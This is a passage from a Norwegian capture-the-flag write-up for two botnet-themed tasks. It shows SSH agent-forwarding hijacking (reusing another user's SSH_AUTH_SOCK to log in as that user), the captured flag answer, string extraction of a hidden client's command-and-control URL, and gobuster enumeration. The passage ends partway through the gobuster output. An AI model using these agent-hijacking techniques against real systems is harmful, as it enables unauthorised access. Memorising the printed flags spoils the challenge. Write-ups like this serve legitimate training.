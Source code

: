 Brukeren `archive` fra maskinen `shady-aggregator` har en aktiv SSH forbindelse med *Agent Forwarding* til våres bruker. Dette kan vi [utnytte](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/ssh-forward-agent-exploitation):

```bash
ls -la /tmp/ssh-njl06sp7u2/agent.203 
# srwxr-xr-x 1 user user 0 Dec 31 22:33 /tmp/ssh-njl06sp7u2/agent.203=
SSH_AUTH_SOCK=/tmp/ssh-njl06sp7u2/agent.203 ssh archive@shady-aggregator
whoami
# archive
cat FLAGG
# FLAGG: 8f1e081e605843164b5efc848c12696a
```

```text
Kategori: 2. Oppdrag
Oppgave:  2.07_shady-aggregator
Svar:     8f1e081e605843164b5efc848c12696a
Poeng:    10

Utmerket! Denne maskinen administrerer et botnett.

Det burde være mulig å hoppe videre til de andre enhetene som kontrolleres.
```

---

## 2.08_client_list

Ref. outputtet fra `ps -aux` på [2.07](#207_shady-aggregator) så ser at det er en klient kjørende på maskinen: `java -jar .client` 

```bash
find / -name ".client" 2>/dev/null
# /tmp/.tmp/.client
ls -la /tmp/.tmp/
# -rw-r--r-- 1 user user 11258 Dec 18 22:02 .client
# -rw-r--r-- 1 user user   202 Jan  1 22:43 .config
# -rw-r--r-- 1 user user    22 Jan  1 22:43 .output
strings /tmp/.tmp/.config 
# utils.Config$0
# sleepDurationL
# Ljava/lang/String;L
# pendingCommandst
# Ljava/util/ArrayList;L
#         serverURLq
# xpwA
# 42FD29AED93B779C
# %http://shady-aggregator.utl/f52e6101/
```

Den URL'en ser veldig suspekt ut. En rask rekognosering med `gobuster` gir oss dette:

```bash
gobuster dir -u http://shady-aggregator.utl/f52e6101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
# ===============================================================
# Gobuster v3.4
# by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
# ===============================================================
# [+] Url:                     http://shady-aggregator.utl/f52e6101/
# [+] Method:                  GET
# [+] Threads:                 10
# [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
# [+] Negative Status codes:   404
# [+] User Agent:              gobuster/3.4
# [+] Timeout:                 10s
```